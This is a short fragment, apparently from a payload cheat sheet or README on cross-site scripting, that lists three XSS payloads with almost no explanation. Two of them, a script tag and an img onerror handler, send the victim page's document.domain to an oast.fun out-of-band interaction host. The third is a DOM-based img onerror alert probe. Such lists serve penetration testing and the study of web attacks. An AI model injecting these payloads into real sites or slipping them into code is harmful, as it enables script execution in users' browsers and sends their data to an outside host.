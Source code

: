 ___


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```

### DOM Based XSS

Based on a DOM XSS sink.

```
#"><img src=/ onerror=alert(2)>
```


```
<img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```

